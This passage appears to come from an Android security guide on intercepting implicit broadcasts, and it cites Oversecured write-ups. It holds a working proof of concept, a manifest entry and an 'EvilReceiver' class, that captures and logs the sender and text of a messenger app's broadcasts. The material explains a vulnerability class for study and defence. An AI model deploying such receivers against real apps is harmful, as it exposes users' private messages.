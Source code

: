 Since implicit broadcasts are delivered to each receiver registered on the device, across all apps, you can register the following broadcast receiver to intercept a user's broadcast:

- `AndroidManifest.xml`

    ```xml
    <receiver android:name=".EvilReceiver">
        <intent-filter>
            <action android:name="com.victim.messenger.IN_APP_MESSAGE" />
        </intent-filter>
    </receiver>
    ```

- `EvilReceiver.java`

    ```java
    public class EvilReceiver extends BroadcastReceiver {
        public void onReceive(Context context, Intent intent) {
            if ("com.victim.messenger.IN_APP_MESSAGE".equals(intent.getAction())) {
                // log intercepted data
                Log.d("evil", "From: " + intent.getStringExtra("from"));
                Log.d("evil", "Text: " + intent.getStringExtra("text"));
            }
        }
    }
    ```

# References

- [Android Developers: Intents and Intent Filters](https://developer.android.com/guide/components/intents-filters)
- [Oversecured: Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
